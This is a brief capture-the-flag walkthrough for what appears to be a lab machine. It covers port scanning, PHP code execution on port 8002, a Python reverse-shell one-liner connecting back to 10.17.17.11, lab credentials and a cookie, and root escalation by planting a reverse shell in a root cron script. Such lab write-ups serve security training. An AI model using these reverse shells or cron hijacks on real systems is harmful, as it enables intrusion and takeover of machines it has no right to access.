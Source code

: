 we scanned ports with nmap and there is a php code execution window on port 8002

from php_reverse_shell we get a nc reverse shell.

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.17.17.11",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(bash)'

/var/www/serv1/
/var/www/html/topSecretPrivescMethod/secret.txt

first flag is in /var/www/serv4/index.php

"username":"admin","password":"admin","cookie":"1234bac1ea76920a79d435d0b74581b5"}

edit backup.sh(which is running as root in crontab) with python reverse shell code and nc listener (Use pwncat) to get root shell.